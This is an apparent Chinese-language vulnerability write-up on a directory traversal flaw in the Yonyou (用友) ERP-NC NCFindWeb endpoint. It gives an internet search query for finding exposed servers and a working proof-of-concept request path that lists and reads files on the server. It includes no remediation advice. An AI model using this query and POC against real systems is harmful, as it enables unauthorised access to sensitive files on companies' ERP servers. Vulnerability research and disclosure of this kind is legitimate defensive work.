 # 

# 用友 ERP-NC NCFindWeb 目录遍历漏洞

## 漏洞描述

用友ERP-NC 存在目录遍历漏洞，攻击者可以通过目录遍历获取敏感文件信息

## 漏洞影响

```
用友ERP-NC
```

## 网络测绘

```
app="用友-UFIDA-NC"
```

## 漏洞复现

POC为

```plain
/NCFindWeb?service=IPreAlertConfigService&filename=
```

![yongyou-8-1](./images/yongyou-8-1.png)

查看 ncwslogin.jsp 文件

![yongyou-8-2](./images/yongyou-8-2.png)
